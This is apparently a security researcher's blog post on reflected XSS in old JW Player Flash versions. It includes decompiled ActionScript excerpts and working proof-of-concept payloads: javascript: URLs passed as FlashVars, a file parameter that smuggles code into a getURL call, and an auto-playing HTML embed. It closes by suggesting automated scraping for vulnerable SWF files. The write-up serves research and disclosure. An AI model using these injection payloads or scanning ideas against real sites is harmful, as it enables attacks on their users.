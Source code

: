 ```yaml
---
layout: post
title: Fun with Flash: Reflected XSS in JW Player
---
```


## Intro
In Frans Rosen’s [talk on bug bounties](https://www.youtube.com/watch?v=KDo68Laayh8), he recommends searching for flash files, since a lot of them are vulnerable.  This got me interested in reading up on Flash files.

## The Tools  
- https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004)
- To decompile Flash into Actionscript, use [JPEXS](https://www.free-decompiler.com/flash/download/).
- Adobe also made an app called [SWF Investigator](http://labs.adobe.com/technologies/swfinvestigator/).  In one of the tabs, it lists out all the vulnerable functions in the file.

## What’s wrong with Flash?
There are a lot of unsafe functions in Actionscript:

{% highlight actionscript %}
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load 
LoadVars.send 
XML.load ( 'url' )
LoadVars.load ( 'url' ) 
Sound.loadSound( 'url' , isStreaming ); 
NetStream.play( 'url' );
flash.external.ExternalInterface.call(_root.callback)
HtmlText
{% endhighlight  %}

The other issue is that you can add parameters (Flashvars) to the URL.  Combine these two issues and you can create reflected XSS attacks like this: https://mysite.com/player.swf?callback=javascript:alert(1).  

## Reflected XSS in JW Player
I came across a copy of JW Player 3.16 and found an XSS vulnerability.  Version 5 also had a few XSS vulns, which you can read about [here](https://nealpoole.com/blog/2013/04/unpatched-reflected-xss-in-jw-player-5/) and [here](https://packetstormsecurity.com/files/113332/JW-Player-5.9-Cross-Site-Scripting-Content-Spoofing.html).  They weren’t interested in doing hotfixes for old versions, but they are fixed in the current JWPlayer 7.8.

### v3.16
Anyways, for v3.16, you can find the source code here:
https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16

In ```ConfigManager.as```, we find these lines:

{% highlight actionscript %}
    public function goTo(obj,itm) {
        getURL(obj.ref.config['aboutlnk'],'_blank');
    };
{% endhighlight %}

The ```aboutlnk``` is a FlashVar.  getURL is an unsafe function that will run javascript.  To get this to work you need to paste ```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)``` , right click to get the context menu, and then click the “About” option.  This works in Firefox v50.

### v4.3
I found a copy of [version v4.3](https://web.archive.org/web/20121226095419/http://developer.longtailvideo.com/trac/changeset/HEAD/tags/mediaplayer-4.3?old_path=%2F&format=zip) in the Internet Archive.  The vulnerability is still there.  

In ```Rightclick.as```:

{% highlight actionscript %}
	/** jump to the about page. **/
	private function aboutSetter(evt:ContextMenuEvent):void {
		navigateToURL(new URLRequest(view.config['aboutlink']),'_blank');
	};
{% endhighlight %}

In v4.3, they rewrote it in ActionScript 3.  So they use ```navigateToURL``` instead of ```getURL```, but it's still not a safe function to pass FlashVars to.  The FlashVar variable name also changed from ```aboutlnk``` to ```actionlink```.

This URL works in Firefox v50:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```

### v5.1

Out of curiousity, I checked [v5.1](https://web.archive.org/web/20110923000742/http://developer.longtailvideo.com/trac/changeset/1965/tags/mediaplayer-5.1.910?old_path=%2F&format=zip) and they finally fixed it by hardcoding the value.  

In ```Rightclick.as```:

{% highlight actionscript %}
/** jump to the about page. **/
		protected function aboutHandler(evt:ContextMenuEvent):void {
			navigateToURL(new URLRequest('http://www.longtailvideo.com/players/jw-flv-player'), '_blank');
		}
{% endhighlight %}

I contacted them about this, and asked if they were going to issue a patch or send out a bulletin.  They replied they didn't support old versions.


## Almost, but not quite
In this code, from ```CallbackView.as```, we see another example of how we can use FlashVars to make the Flash file run javascript:

{% highlight actionscript %}
/** sending the current file,title,id,state,timestamp to callback **/
    private function sendVars(stt:String,dur:Number,cpl:Boolean) {
        clearInterval(playSentInt);
        if(config['callback'] == "urchin" || config['callback'] == "analytics") {
            var fil = feeder.feed[currentItem]["file"];
            var fcn = "javascript:pageTracker._trackPageview";
            if(config['callback'] == "urchin") {
                fcn = "javascript:urchinTracker";
            }
            if(fil.indexOf('http') != undefined) {
                fil = fil.substring(fil.indexOf('/',7)+1);
            }
            if(stt == "start") {
                getURL(fcn+"('/start_stream/"+fil+"');");
            } else if (stt == "stop" && cpl == true) {
                getURL(fcn+"('/end_stream/"+fil+"');");
            }
        } else {
            varsObject.file = feeder.feed[currentItem]["file"];
            varsObject.title = feeder.feed[currentItem]["title"];
            varsObject.id = feeder.feed[currentItem]["id"];
            varsObject.state = stt;
            varsObject.duration = dur;
            varsObject.sendAndLoad(config["callback"],varsObject,"POST");
        }
    };
{% endhighlight %}

Using the “callback” and “file” FlashVars, we can get the line 

{% highlight actionscript %}
getURL(fcn+"('/end_stream/"+fil+"');");
{% endhighlight %}
to execute.  


If we use ?file=video.flv&callback=urchin, it would fire off 
```
javascript:urchinTracker(‘end_stream/video.flv’);
```
but that would be pretty boring.  


By changing the “file” parameter, however, we can get it to execute custom Javascript.  

Example: 
```
file=video');alert(1);void('.flv. 
```

This would cause the browser to execute 
```
javascript:urchinTracker(‘end_stream/video’);alert(1):void(‘.flv’);
```

Unfortunately, this can’t be used for a reflected XSS attack, since the function “urchinTracker” isn’t there if you just pull up the swf file url.  The only way to exploit this would be if a page embedded the the file and also let you specify the flashvars in the url.

As an example, try putting the following in a webpage.  It will automatically play, stop, and pop an alert box.  It works in Firefox, Chrome, and Safari.

```html
function urchinTracker(){
}
 <object style="height:360px;width:640px;" data="mediaplayer.swf" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="file=video');alert(1);void('.flv&enablejs=true&callback=urchin&autostart=true" id="jstest" ></object> 
```

## Automate it
As with many things in security, finding these files and exploiting them can be tedious if you have to do it manually.  A better approach would be to write a script to scrape Google for the Flash files, download them, decompile them, and grep the unsafe function names.
